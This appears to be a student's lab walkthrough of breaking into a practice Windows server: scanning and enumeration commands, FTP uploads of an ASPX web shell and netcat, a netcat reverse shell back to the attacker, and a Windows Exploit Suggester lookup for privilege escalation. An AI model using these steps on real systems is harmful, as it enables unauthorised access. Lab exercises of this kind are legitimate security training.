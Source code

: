 ﻿# Caldera 192.168.2.4
## Andrea Zonnekus 18758119

nmap --vv -p- -Pn -sT -sV --open 192.168.2.4

![](caldera_steps2/Aspose.Words.3b30b9b3-702f-4f47-ada4-ebd0393c9fa2.001.png)

![](caldera_steps2/Aspose.Words.3b30b9b3-702f-4f47-ada4-ebd0393c9fa2.002.png)



![](caldera_steps2/Aspose.Words.3b30b9b3-702f-4f47-ada4-ebd0393c9fa2.003.png)

enum4linux -a 192.168.2.4

![](caldera_steps2/Aspose.Words.3b30b9b3-702f-4f47-ada4-ebd0393c9fa2.004.png)

binary 

put cmdasp.aspx

![](caldera_steps2/Aspose.Words.3b30b9b3-702f-4f47-ada4-ebd0393c9fa2.005.png)

systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"

![](caldera_steps2/Aspose.Words.3b30b9b3-702f-4f47-ada4-ebd0393c9fa2.006.png)

whoami /priv

![](caldera_steps2/Aspose.Words.3b30b9b3-702f-4f47-ada4-ebd0393c9fa2.007.png)

binary

put nc.exe

![](caldera_steps2/Aspose.Words.3b30b9b3-702f-4f47-ada4-ebd0393c9fa2.008.png)

where -r c:\ nc.exe

![](caldera_steps2/Aspose.Words.3b30b9b3-702f-4f47-ada4-ebd0393c9fa2.009.png)

where -r c:\ powershell.exe

![](caldera_steps2/Aspose.Words.3b30b9b3-702f-4f47-ada4-ebd0393c9fa2.010.png)

c:\inetpub\wwwroot2\nc.exe 10.8.0.106 4444 -e cmd.exe

![](caldera_steps2/Aspose.Words.3b30b9b3-702f-4f47-ada4-ebd0393c9fa2.011.png)

nc -lvnp 4444

![](caldera_steps2/Aspose.Words.3b30b9b3-702f-4f47-ada4-ebd0393c9fa2.012.png)

cd c:\inetpub\wwwroot2

![](caldera_steps2/Aspose.Words.3b30b9b3-702f-4f47-ada4-ebd0393c9fa2.013.png)

systeminfo > info.txt

![](caldera_steps2/Aspose.Words.3b30b9b3-702f-4f47-ada4-ebd0393c9fa2.014.png)

sudo wget <http://192.168.2.4:61240/info.txt>

![](caldera_steps2/Aspose.Words.3b30b9b3-702f-4f47-ada4-ebd0393c9fa2.015.png)

sudo python3 wesng/wes.py info.txt > kernel\_vulns

![](caldera_steps2/Aspose.Words.3b30b9b3-702f-4f47-ada4-ebd0393c9fa2.016.png)



cat kernel\_vulns | grep Privilege -B 5

![](caldera_steps2/Aspose.Words.3b30b9b3-702f-4f47-ada4-ebd0393c9fa2.017.png)

cat kernel\_vulns | grep CVE-2019-0803 -A 4

![](caldera_steps2/Aspose.Words.3b30b9b3-702f-4f47-ada4-ebd0393c9fa2.018.png)

![](caldera_steps2/Aspose.Words.3b30b9b3-702f-4f47-ada4-ebd0393c9fa2.019.png)
